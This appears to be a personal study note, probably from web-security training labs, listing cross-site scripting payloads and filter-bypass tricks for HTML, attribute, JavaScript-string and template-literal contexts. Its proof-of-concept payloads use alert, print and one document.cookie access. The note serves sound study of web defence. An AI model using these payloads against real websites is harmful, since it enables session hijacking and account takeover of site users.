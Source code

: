 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> `https://insecure-website.com/search?term=<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(1)</script>`
- **same tag** -> **new attribute** ->
	- `" autofocus onfocus=alert(1) x="` (`x="` to gracefully repair the following markup
	- `"onmouseover="alert(1)`
- **same tag** -> **same attribute** 
	 - `<a href="javascript:alert(1)">`
	 - hidden input -> `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`
## XSS into JavaScript

##### Terminating the existing script 
context: `<script> ... var input = 'controllable data here'; ... </script>` 
- `</script><img src=1 onerror=alert(document.domain)>` (reason:HTML parsing first)
- single quote and backslash escaped -> `</script><script>alert(1)</script>`
##### Breaking out of a JavaScript string
- `'-alert(1)-'` OR `';alert(1)//`
  - back slash escape :  `\';alert(1)//` -> `\\';alert(1)//` -> `';alert(1)//`
##### Making use of HTML-encoding
context: `<a href="#" onclick="... var input='controllable data here'; ...">`
- `&apos;-alert(1)-&apos;`
##### XSS in JavaScript template literals
context: ``<script> ... var input = `controllable data here`; ... </script>`` 
- `${alert(1)}`